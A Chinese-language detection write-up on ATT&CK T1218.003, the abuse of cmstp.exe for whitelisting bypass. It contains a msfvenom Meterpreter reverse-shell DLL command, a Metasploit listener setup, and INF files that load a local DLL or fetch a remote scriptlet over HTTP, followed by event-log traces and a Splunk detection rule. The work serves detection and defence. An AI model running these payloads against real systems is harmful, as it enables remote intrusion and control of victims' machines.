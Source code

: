 # T1218-003-win-基于白名单Cmstp.exe执行Payload

## 来自ATT&CK的描述

微软的命令行程序CMSTP.exe用于安装连接管理器服务配置文件。CMSTP.exe将收到的安装信息文件（INF）作为参数，安装用于远程访问连接的服务配置文件。

攻击者可能会向CMSTP.exe提供带恶意命令的INF文件。与Regsvr32/"Squiblydoo"类似，CMSTP.exe可能被滥用来从远程服务器加载和执行动态链接库和/或COM脚本小程序。攻击者还可能用CMSTP.exe来绕过AppLocker及其他白名单防御，因为CMSTP.exe本身是一个合法的、已签名的微软应用。

CMSTP.exe也可能被滥用来绕过用户账号控制并通过自动升级的COM接口执行INF文件中的任意恶意命令。

## 测试案例

Cmstp安装或删除“连接管理器”服务配置文件。如果不含可选参数的情况下使用，则 cmstp 会使用对应于操作系统和用户的权限的默认设置来安装服务配置文件。

微软官方文档：
<https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp>

说明：Cmstp.exe所在路径已被系统添加PATH环境变量中，因此，Cmstp命令可识别，需注意x86，x64位的Cmstp调用。

Windows 2003 默认位置：

```dos
C:\Windows\System32\cmstp.exe
C:\Windows\SysWOW64\cmstp.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\cmstp.exe
C:\Windows\SysWOW64\cmstp.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows 7

### 攻击分析

#### 生成payload.dll

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53  -f dll -o payload.dll
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 53
lport => 53
msf5 exploit(multi/handler) > set AutoRunScript migrate -f
AutoRunScript => migrate -f
msf5 exploit(multi/handler) > exploit
```

#### inf模板

```inf
    [version]
    Signature=$chicago$
    AdvancedINF=2.5
    [DefaultInstall_SingleUser]
    UnRegisterOCXs=UnRegisterOCXSection
    [UnRegisterOCXSection]
     C:\payload.dll
    [Strings]
    AppAct = "SOFTWARE\Microsoft\Connection Manager"
    ServiceName="12306Br0"
    ShortSvcName="12306Br0"
```

INF文件的RegisterOCXSection需要包含恶意DLL文件的本地路径或远程执行的WebDAV位置

#### 靶机执行payload

```cmd
cmstp.exe /ni /s C:\Users\12306Br0\Desktop\a\add.inf
```

#### 反弹shell

未成功获取到shell

## 测试留痕

```log
windows安全日志
事件ID： 4688
进程信息:
新进程 ID: 0x9b0
新进程名: C:\Windows\System32\cmstp.exe

sysmon日志
事件ID：1
OriginalFileName: CMSTP.EXE
CommandLine: cmstp.exe  /ni /s C:\Users\12306Br0\Desktop\a\add.inf
CurrentDirectory: C:\Windows\system32\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-0020eae10600}
LogonId: 0x6e1ea
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=BA135738EF1FB2F4C2C6C610BE2C4E855A526668
ParentProcessGuid: {bb1f7c32-fdb7-5e9a-0000-0010563b2d00}
ParentProcessId: 1988
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\System32\cmd.exe"
```

## inf文件内容

```inf
    [version]
    Signature=$chicago$
    AdvancedINF=2.5
    [DefaultInstall_SingleUser]
    UnRegisterOCXs=UnRegisterOCXSection
    [UnRegisterOCXSection]
    %11%\scrobj.dll,NI,http://192.168.1.4/cmstp_rev_53_x64.sct
    [Strings]
    AppAct = "SOFTWARE\Microsoft\Connection Manager"
    ServiceName="Micropoor"
    ShortSvcName="Micropoor"
```

## 检测规则/思路

### splunk规则

```yml
index=windows source=”WinEventLog:Microsoft-Windows-Sysmon/Operational” (EventCode=1 Image=”*\\cmstp.exe”) OR (EventCode=10 SourceImage=”*\\cmstp.exe” ) OR (EventCode=10 CallTrace=”*CMLUA.dll*”) (EventCode IN (12,13) TargetObject=”*\\CMMGR32.exe” OR (EventCode=12 TargetObject=”HKLM\\SOFTWARE\\Microsoft\\Tracing\\cmstp*”)
```

### 建议

暂无

## 参考推荐

MITRE-ATT&CK-T1218-003

<https://attack.mitre.org/techniques/T1218/003/>

windows下基于白名单获取shell的方法整理（下）

<http://www.safe6.cn/article/157#directory030494471069429444>

基于白名单Cmstp.exe执行payload第十六季

<https://www.bookstack.cn/read/Micro8/Chapter1-81-90-87_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Cmstp.exe%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%8D%81%E5%85%AD%E5%AD%A3.md>
